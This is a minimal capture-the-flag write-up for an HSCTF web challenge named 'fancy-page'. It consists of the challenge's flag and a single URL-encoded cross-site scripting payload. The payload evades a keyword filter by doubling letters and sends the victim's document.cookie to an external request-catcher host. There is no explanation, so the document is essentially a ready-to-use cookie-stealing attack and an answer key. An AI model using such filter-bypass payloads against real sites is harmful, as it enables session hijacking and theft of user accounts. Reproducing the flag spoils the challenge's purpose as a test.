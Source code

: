 # fancy-page

flag{filter_fail}

```
http://fancy-page.hsctf.com/display.html?content=%3Cimg%20src%3D%27%27%20oonnerror%3D%22a%3Ddocument.createElement(%27img%27);a.src%3D%27https://en69npu91xt9m.x.pipedream.net/%27%2Bdocument.cookonie;document.body.append(a)%22%3E
```
